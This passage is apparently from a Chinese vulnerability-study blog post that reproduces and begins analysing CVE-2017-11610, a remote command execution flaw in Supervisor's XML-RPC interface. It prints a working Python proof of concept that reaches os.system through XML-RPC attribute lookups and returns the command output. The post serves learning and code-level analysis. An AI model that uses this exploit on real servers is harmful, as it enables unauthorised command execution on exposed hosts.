 访问页面抓包，cv 这个 poc 进去，根据自己的环境稍作修改之后放包即可。

![](https://mmbiz.qpic.cn/mmbiz_png/Ok4fxxCpBb6nWbqq346o0XKloxIg5h1ZGo1FGqomoMA8UkFFay5nNibJpn27YjiaVAdS6XWutEhUUWYaVDPePjww/640?wx_fmt=png)

成功写入文件

![](https://mmbiz.qpic.cn/mmbiz_png/Ok4fxxCpBb6nWbqq346o0XKloxIg5h1ZPQFdVPfccmAoGdkrYdNWjm18Ymmia264ziacv5uZ3SfibicgkRkyLsMXcw/640?wx_fmt=png)

wireshark 的包

![](https://mmbiz.qpic.cn/mmbiz_png/Ok4fxxCpBb6nWbqq346o0XKloxIg5h1ZEamickfDShx8297kP0ae8BAPkrcoI4AO0Ke7ZQKEnribNtXQibibJpVAvg/640?wx_fmt=png)

但是上面版本的 poc 是没有回显的。关于回显 poc 在 vulhub 的官方文档有提到

https://vulhub.org/#/environments/supervisor/CVE-2017-11610/

利用方式如下。

![](https://mmbiz.qpic.cn/mmbiz_png/Ok4fxxCpBb6nWbqq346o0XKloxIg5h1ZCHGiaBlH3Fj61HicmnhqcMtpxcHDdGCaGYQaRUklj1e8zwoSsvD3pZUg/640?wx_fmt=png)

poc.py

```
#!/usr/bin/env python3
import xmlrpc.client
import sys


target = sys.argv[1]
command = sys.argv[2]
with xmlrpc.client.ServerProxy(target) as proxy:
    old = getattr(proxy, 'supervisor.readLog')(0,0)

    logfile = getattr(proxy, 'supervisor.supervisord.options.logfile.strip')()
    getattr(proxy, 'supervisor.supervisord.options.warnings.linecache.os.system')('{} | tee -a {}'.format(command, logfile))
    result = getattr(proxy, 'supervisor.readLog')(0,0)

    print(result[len(old):])

```

这个点本文就不再重点探究，下面主要复现学习分析一下这个漏洞在代码层面上是如何产生的。

![](https://mmbiz.qpic.cn/mmbiz_png/7QRTvkK2qC5BBRiccicQkicWD6n2u8JzHItRdz6v3aT1CtLryat1lBwGv3QiaOHgGXFqaNpCiaTvanXwKr8tbBrYvxw/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/7QRTvkK2qC5BBRiccicQkicWD6n2u8JzHItRdz6v3aT1CtLryat1lBwGv3QiaOHgGXFqaNpCiaTvanXwKr8tbBrYvxw/640?wx_fmt=png)

漏洞分析

既然知道是 XML-RPC 出了问题，那么通过程序入口点然后一点点去找处理 XML-RPC 请求的函数，看看它是如何实现的。

先看 supervisord 的启动文件 supervisord.py

根据前辈的 poc 发现，是通过 http 请求发送的 payload，所以跟进一下这里的 self.options.openhttpservers(self)
